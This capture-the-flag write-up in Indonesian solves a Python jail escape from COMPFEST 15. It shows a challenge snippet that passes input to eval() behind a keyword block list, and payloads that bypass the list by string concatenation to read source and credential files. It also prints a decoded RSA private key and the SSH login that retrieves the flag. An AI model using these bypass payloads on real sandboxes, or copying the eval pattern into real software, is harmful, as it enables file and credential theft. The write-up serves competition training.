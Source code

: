 # __CTF COMPFEST 15__ 
## _napi_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Misc | 316 | k3ng

**Description:** 

> john is currently planning an escape from jail. Fortunately, he got a snippet of the jail source code from his cellmate. Can you help john to escape?
> 
> `nc 34.101.122.7 10008`
> 
> [snippet.py](snippet.py)

### snippet.py
```py
# ...

def main():
    banned = ['eval', 'exec', 'import', 'open', 'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")
            
            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()
    
    else:
        print("User not found.")

# ...
```

## Solution
Pada chall ini kita bisa menggunakan syntax python tapi dengan batasan tidak bisa menggunakan beberapa syntax pada list `banned`. Jalankan challnya pada remote dan kita coba menggunakan syntax berikut.
> `john > print(__builtins__.__dict__['op'+'en'])`

Dan menghasilkan

> `<built-in function open>`

Kita lanjutkan dengan melihat isi source code chall ini karena pada file yang ada pada soal kurang lengkap menggunakan syntax berikut.

> `john > print(__builtins__.__dict__['op'+'en'](__file__).read())`

Dan menghasilkan [chall.py](chall.py)

Terlihat 2 file yang menarik yaitu `notice.txt` dan `creds.txt`, kita buka kedua file tersebut.

> `john > print(__builtins__.__dict__['op'+'en']('creds.txt').read())`

> `john > print(__builtins__.__dict__['op'+'en']('notice.txt').read())`

Dan menghasilkan [creds.txt](creds.txt) dan [notice.txt](notice.txt).

### creds.txt
```
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0NBUUVBbjhDYzFqdnZW
ZGFESTlOUThlbk5kd1BaTFd1Qkt5aG13ZklpV1NUREdJYi8xNTVkCmhXMGZ2aXNCVkJvMFZhamRG
MFhsL056MEpYd2RXcGVVcmdzaUUyKytrSHBrZ3Z6VHVma3BsVkRERkNBNDR6b3EKSHhKS09TVzdW
VzgvNjdHbHorQlBBc1RkYloySUEwYThTVVJIZ1FXc0IybXlBRmxRNGNLNXBodlFpZjRQQ0didQpL
VkMyNTBHcTRTUzBnYnhicjdjUXVhek9JYWljKzd5azYzcW5RakkvRVladkRMSHVtdG1uaEpnc3JM
SVdMeUZ2Ci9DU05XWnJXSVozREwwWGphUkRiQzBHMGw4dlNVNUpOZ0E2S1JRTDhUOUIwZk5pYXl1
U28zMWVHMy9CY3l5YVYKVG1EM1lsQ2J4NUU1TlZsemt0N1I0M3dkYVZFV0FBVzBwOGprdFFJREFR
QUJBb0lCQUUxZkgxYlBMbXFYZTJwVgpoV1cxQkJNNVpPMFBuVDdHMFlYcmZPRko0Y2UyVXFFZWpW
TDYrQjNGZkY0OFZzNkorNUt6QXVIR0xlVWR5S1hBCnRuelkzWWNtWHRoZ3Z0K0dEaEdMY0sxbHNT
WEZPV2dzR294ejhramRVbTdkYzhyMmZrVkE4V040NzNtUWkzaHkKd095SFNrNWQ3ZVNsTjFYZDdF
TjdhU2pmWGRBRzNVTmRISWR2clAwL2t5K3J6SzlualN0bHF5RGUyYVFTZHRpNQpQa2xQSVY1QUVY
bnNSVGNoUzFLVTcvdWlxVUw5L1BsQlZXM1lieTl2OVExVm5Jd3Z4eXA2aVRQOW13RW1RM251Ci9h
Zm9XTEJtOUFicnV6UXpSdzN0aGN0UlNvMTZWREFBQW5ybGd1NkhMSXJGK21jaER6NERuN2pDZm8x
YlZzRk0KSTJ2aHlPRUNnWUVBMFlrRTZtSlBGdDhJcENZVzlOUGw3bHMzTnV1NVlNY2ZLbzhndy9h
RnZXaHJGRUtnOGJqUwp3STNrcTFGN0pWS0tYQVVGMDEwNGJmZ3QwMnJpTTJ0cGxUZnQ4ajZ0dGQ2
RWt3Yy8xdDhTUjNpelQyaTc5TW1hCnRTb3BCcThhcDZuRVEwSElITU9XYnlZYVgxSmFsZVVhcTBl
eVRrQWNWZFRRN3E1OUZaTVpVazBDZ1lFQXd5MkEKU3V6Q0haMy9uVGYrT0YvUi9JMi9nWHcvOGtj
MEhmSnZjbkVrZWg2TUR4cWhwc0YzZlRBbzZiV2N5cWZhbzdtVQpJREF2NjBlbjlyNFpWbWdOQm1K
N2JhbUxTTmg3RDhhaTZPZ1d3Q1NDQ0JMV0RuSzFKZXd2NFhJWklLM3BERGZhCkJ1MWx0YUpqMkVG
WmVIQUV5a0MvSG5DbVhVbjZjazNudUt2NUFBa0NnWUFiRys0ZDRQQTRsa3lJNkVDcUZrdzIKUldq
a1d5VVZ4MDFaOVVDWStla2RzMGUvVEV1RVdwUXh3Mm5sWEZwaFhzZDExbFNGbnhidzYxNEtiMWFx
cm1mdgpuVmZVc3BWSTVXd2psWm1GMUVDS0xLeU9Sbytpd1A2YUY4Vk5EeFNVd3BzWTFJYnVhY09w
eDdVN3hlemdYYzdRCmdDc3FncExuNit2SUpaMGJVSGZETlFLQmdRQ3E4MTJkUW9ZN1hyb1d3SVpn
WmowTVVqTmNmTEdkeVpQeWJ2Z0MKYXVzaU0wTkZyM1BMRlVWTlZ6TmVrSDNHV3dMN3lIM2ZPNVdk
SkdRUGtDMnRLdkhObDlDNEdub3UwYjNuOFhtYgpPajFEQ2pjQ1QwMUIxbUtuMXBtUmcxaFM4VUJn
UFVNd01ocVYzcWhKTCtQbncyWE9xS3M5UkRuVEdBck90MEd3CjFLQUIwUUtCZ0FHVFVPWGhVOVhB
bHZVZG9DeTFUZTNLeU5TWFRwekJXNFJxN3p3ejZQMENOVzlQTHNxNHNFRU0KcjlHYXpFUys5aW92
eS9DeDlFd0xCVXlLWi9sTFVzUWNta2IwOWdTS2hBbTk5aXRKSVE0eHJYUytyR2I5dzQrbgpqclRh
OHF6Y3QvOGNVOGlkeHlFUVZoc2xhRnlCQkU5elE2REtjb3RRQ1BrQmY3T09Lc0MvCi0tLS0tRU5E
IFJTQSBQUklWQVRFIEtFWS0tLS0tCg==
```

### notice.txt
```
--- IMPORTANT NOTICE ---

Dear admins, I have received information that a prisoner is trying to get access to the flag.
I have moved the flag somewhere safe.
I would advise you not to access the flag right now.
But if there is an urgent matter, login to admin@THIS_SERVER_IP:10009 with your password as the SSH key to access the flag.
```


Pada [creds.txt](creds.txt) masih berupa base64, kita encode menghasilkan [rsa.txt](rsa.txt).

### rsa.txt
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAn8Cc1jvvVdaDI9NQ8enNdwPZLWuBKyhmwfIiWSTDGIb/155d
hW0fvisBVBo0VajdF0Xl/Nz0JXwdWpeUrgsiE2++kHpkgvzTufkplVDDFCA44zoq
HxJKOSW7VW8/67Glz+BPAsTdbZ2IA0a8SURHgQWsB2myAFlQ4cK5phvQif4PCGbu
KVC250Gq4SS0gbxbr7cQuazOIaic+7yk63qnQjI/EYZvDLHumtmnhJgsrLIWLyFv
/CSNWZrWIZ3DL0XjaRDbC0G0l8vSU5JNgA6KRQL8T9B0fNiayuSo31eG3/BcyyaV
TmD3YlCbx5E5NVlzkt7R43wdaVEWAAW0p8jktQIDAQABAoIBAE1fH1bPLmqXe2pV
hWW1BBM5ZO0PnT7G0YXrfOFJ4ce2UqEejVL6+B3FfF48Vs6J+5KzAuHGLeUdyKXA
tnzY3YcmXthgvt+GDhGLcK1lsSXFOWgsGoxz8kjdUm7dc8r2fkVA8WN473mQi3hy
wOyHSk5d7eSlN1Xd7EN7aSjfXdAG3UNdHIdvrP0/ky+rzK9njStlqyDe2aQSdti5
PklPIV5AEXnsRTchS1KU7/uiqUL9/PlBVW3Yby9v9Q1VnIwvxyp6iTP9mwEmQ3nu
/afoWLBm9AbruzQzRw3thctRSo16VDAAAnrlgu6HLIrF+mchDz4Dn7jCfo1bVsFM
I2vhyOECgYEA0YkE6mJPFt8IpCYW9NPl7ls3Nuu5YMcfKo8gw/aFvWhrFEKg8bjS
wI3kq1F7JVKKXAUF0104bfgt02riM2tplTft8j6ttd6Ekwc/1t8SR3izT2i79Mma
tSopBq8ap6nEQ0HIHMOWbyYaX1JaleUaq0eyTkAcVdTQ7q59FZMZUk0CgYEAwy2A
SuzCHZ3/nTf+OF/R/I2/gXw/8kc0HfJvcnEkeh6MDxqhpsF3fTAo6bWcyqfao7mU
IDAv60en9r4ZVmgNBmJ7bamLSNh7D8ai6OgWwCSCCBLWDnK1Jewv4XIZIK3pDDfa
Bu1ltaJj2EFZeHAEykC/HnCmXUn6ck3nuKv5AAkCgYAbG+4d4PA4lkyI6ECqFkw2
RWjkWyUVx01Z9UCY+ekds0e/TEuEWpQxw2nlXFphXsd11lSFnxbw614Kb1aqrmfv
nVfUspVI5WwjlZmF1ECKLKyORo+iwP6aF8VNDxSUwpsY1IbuacOpx7U7xezgXc7Q
gCsqgpLn6+vIJZ0bUHfDNQKBgQCq812dQoY7XroWwIZgZj0MUjNcfLGdyZPybvgC
ausiM0NFr3PLFUVNVzNekH3GWwL7yH3fO5WdJGQPkC2tKvHNl9C4Gnou0b3n8Xmb
Oj1DCjcCT01B1mKn1pmRg1hS8UBgPUMwMhqV3qhJL+Pnw2XOqKs9RDnTGArOt0Gw
1KAB0QKBgAGTUOXhU9XAlvUdoCy1Te3KyNSXTpzBW4Rq7zwz6P0CNW9PLsq4sEEM
r9GazES+9iovy/Cx9EwLBUyKZ/lLUsQcmkb09gSKhAm99itJIQ4xrXS+rGb9w4+n
jrTa8qzct/8cU8idxyEQVhslaFyBBE9zQ6DKcotQCPkBf7OOKsC/
-----END RSA PRIVATE KEY-----

```

Pada [notice.txt](notice.txt) terdapat hint bahwa kita harus mengakses server SSH dengan credential admin. Lalu kita akses server SSH dengan password yang ditemukan tadi. Jangan lupa juga mengganti permission [rsa.txt](rsa.txt) ke `600`

> `$ chmod 600 rsa.txt`

> `$ ssh admin@34.101.122.7 -p 10009 -i rsa.txt`

Setelah berhasil mengakses server SSH kita gunakkan command

> `$ ls`

untuk melihat list file dan terdapat file `flag.txt` dan kita buka untuk mendapakan flag

> `$ cat flag.txt`

## Flag:
> COMPFEST15{clo5e_y0ur_f1LE_0bj3ctS_plZzz___THXx_053fac8f23}